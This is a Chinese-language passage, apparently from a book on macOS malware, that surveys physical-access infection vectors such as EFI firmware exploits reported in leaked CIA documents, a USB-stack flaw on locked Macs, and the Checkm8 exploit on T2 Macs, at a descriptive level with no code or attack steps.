到目前为止，本章讨论的所有感染途径都是*远程*的，这意味着攻击者在攻击时并未实际出现在系统所在地。远程攻击有几个优点。它们使攻击者能够克服地理差异，并且能够扩大攻击范围，感染全球范围内的多个目标。远程攻击还增加了攻击者的隐蔽性，降低了他们被发现的风险；如果他们足够小心，攻击者很难被识别或被捕捉。

远程攻击的主要缺点是其成功率远未得到保证。当攻击者能够获得计算机的物理访问权限时，他们实现成功感染的可能性大大增加。然而，要做到这一点，攻击者首先必须获得目标系统的实际访问权限，并且要承担被当场抓获的风险。此外，物理攻击通常仍然需要漏洞利用。尽管普通黑客可能没有资源，也不愿意接受物理访问攻击的风险，但国家级黑客，通常针对特定的高价值目标，已知曾成功实施过此类攻击。例如，在一篇标题为“维基解密揭示 CIA 如何破解 Mac 隐藏代码”的文章中，*Wired*指出：

> 如果 CIA 想要进入你的 Mac，单单避免那些带有病毒附件的电子邮件或恶意设计的网页可能不足以保护你……如果兰利的黑客获得了物理访问权限，他们仍然可以感染你笔记本电脑中最深层、最隐秘的区域。^(25)

文章中提到的泄露政府文件讨论了该机构在*可扩展固件接口（EFI）漏洞利用*方面的能力，这些漏洞针对的是操作系统启动前的代码中的漏洞。它们安装的有效载荷通常非常难以检测和移除。此外，由于被利用的漏洞可能存在于只读内存中，因此可能无法通过基于软件的修复来解决。有关 EFI 和引导加载程序攻击的更多细节，请参见《BootBandit：一项 macOS 引导加载程序攻击》。^(26)

当然，这些基于低级 EFI 的攻击并不是拥有物理访问权限的攻击者唯一的选择。例如，攻击者可以利用漏洞（例如 USB 栈中的漏洞），即使目标 Mac 已锁定。举个例子：苹果桌面操作系统的旧版本中存在一个可靠可利用的 USB 漏洞。攻击者只需插入一个 USB 设备，即使目标处于锁定状态，也可以触发这个非公开的漏洞。此外，由于漏洞代码以 root 权限运行，成功利用该漏洞可能会导致通过安装持久性恶意软件来完全控制系统。

最近，臭名昭著的 Checkm8 漏洞（因能够越狱 iPhone 而广为人知）被发现也影响了苹果的非移动设备，如带有 T2 芯片的 Mac 和 MacBook。当攻击者获得目标系统的物理访问权限时，可以利用这个漏洞感染 macOS 系统。^(27)

## 接下来

现在你应该已经对恶意软件如何感染 macOS 系统有了扎实的理解。那么，一旦恶意软件感染了系统，它会做些什么呢？通常，它会持续安装自身。在第二章中，我们将关注各种持久化方法。

## 参考文献
